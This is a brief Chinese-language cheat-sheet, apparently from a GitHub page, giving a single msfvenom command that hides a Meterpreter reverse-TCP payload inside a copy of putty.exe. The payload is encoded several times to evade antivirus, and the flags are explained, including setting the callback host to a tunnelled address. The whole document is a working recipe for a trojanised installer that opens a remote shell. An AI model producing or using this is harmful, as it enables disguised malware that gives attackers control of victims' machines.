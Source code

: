 # msfvenom

####

`msfvenom -a x86 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=127.0.0.1 lport=8998 -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe -o puttyX.exe`

```
-a 表示目标机器架构；

-platform 表示系统平台；

-x 表示捆绑软件；

-p表示paylaod。
```

lhost和lport 输入之前内网穿透的ip和port

```
-i 表示编码次数，编码次数越多被检测的风险越大；

-o 表示输出文件的位置和名字。
```